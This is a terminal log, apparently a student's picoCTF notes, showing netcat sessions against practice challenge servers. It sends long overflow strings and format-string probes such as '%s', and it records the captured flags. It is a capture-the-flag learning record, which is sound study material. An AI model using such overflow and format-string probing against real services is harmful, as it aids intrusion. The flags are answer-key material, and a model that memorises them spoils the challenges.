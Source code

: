 earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 53208
Input: wqeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

_______________________________________________________________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 1e2qwe21.#\
There is no such burger yet!

earthwarrior@LAPTOP-VLDN28C5:~$ nc mimas.picoctf.net 59065
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}

_______________________________________________________

earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
Here's a story -
qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq&&&&&&&&&&&&&&


qew
eqweqeqeqeqeq
^Z
[1]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> \0
Here's a story -
\0

^Z
[2]+  Stopped                 nc saturn.picoctf.net 50585
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> %s
Here's a story -
%s
^C
earthwarrior@LAPTOP-VLDN28C5:~$ nc saturn.picoctf.net 50585
Tell me a story and then I'll tell you one >> flag.txt
Here's a story -
flag.txt





https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
